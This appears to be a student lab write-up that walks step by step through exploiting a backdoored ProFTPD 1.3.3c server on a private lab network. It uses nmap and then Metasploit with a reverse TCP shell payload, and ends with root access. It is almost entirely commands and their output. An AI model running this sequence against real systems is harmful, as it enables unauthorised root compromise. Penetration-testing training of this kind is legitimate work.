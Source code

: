 # Steps for lab 2

## Step 1 - Search for exploits on target

```bash
nmap nmap -sC -sV 10.5.0.254
```

```markdown
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
80/tcp open  http    Apache httpd 2.4.10 ((Debian) PHP/5.5.29)
|_http-server-header: Apache/2.4.10 (Debian) PHP/5.5.29
|_http-title: exploit.co.il : Articles : Tutorials : Reviews : Videos
```

## Step 2 - Use msfconsole

### Step 2.1

```bash
search ProFTPD
use 5
set RHOSTS 10.5.0.254
run
```

```markdown
[-] 10.5.0.254:21 - Exploit failed: A payload has not been selected.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show payloads
```

### Step 2.2

```bash
ifconfig
```

```markdown
eth-lab: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.5.0.1  netmask 255.255.255.0  broadcast 0.0.0.0
```

### Step 2.3

```bash
show payloads
set payload 5
set LHOST 10.5.0.1
run
```

```markdown
[*] Started reverse TCP handler on 10.5.0.1:4444
[*] 10.5.0.254:21 - Sending Backdoor Command
[*] Command shell session 1 opened (10.5.0.1:4444 -> 10.5.1.11:46394) at 2023-03-27 03:40:12 +0000
```

### Step 3 - Now you are in the target machine

```bash
whoami
```

```markdown
root
```

```bash
ls
```

```markdown
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
proftpd-1.3.3c
root
run
sbin
srv
sys
tmp
usr
var
```

### Terminal output

- [tmux session 1](tmux1.txt)

- [tmux session 2](tmux2.txt)
